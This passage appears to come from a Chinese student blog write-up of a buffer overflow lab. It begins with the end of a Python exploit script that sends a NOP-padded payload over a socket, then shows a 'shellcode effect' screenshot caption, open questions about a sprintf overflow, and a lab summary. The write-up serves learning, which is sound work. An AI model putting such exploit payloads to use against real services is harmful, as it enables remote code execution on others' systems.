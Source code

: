     +<span class="hljs-string">'\x91\x92\x93\x94\x95\x96\x97\x98\x99\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90'</span>+<span class="hljs-string">'\r\n'</span>) 
string = s.recv(<span class="hljs-number">4096</span>)
<span class="hljs-keyword">print</span> string</code></pre>
<p>测试效果</p>
<p></p><center> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170423001627850?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
图13 shellcode效果</br></img></br></center><p></p>
<h1 id="0x04-问题">0x04 问题</h1>
<p>虽然知道了溢出是函数sprintf造成的，但是还是不了解为什么只复制了1024个字节，后面的又被前面的覆盖掉了。</p>
<h1 id="0x05-实验总结">0x05 实验总结</h1>
<p>缓冲区溢出的实验是我对程序溢出利用有了深刻的认识理解，通过调试软件漏洞大大增长了自己的动手实践能力。同时还找到了自己不足的方面。希望在以后的学习中更加丰富自己。</p></div>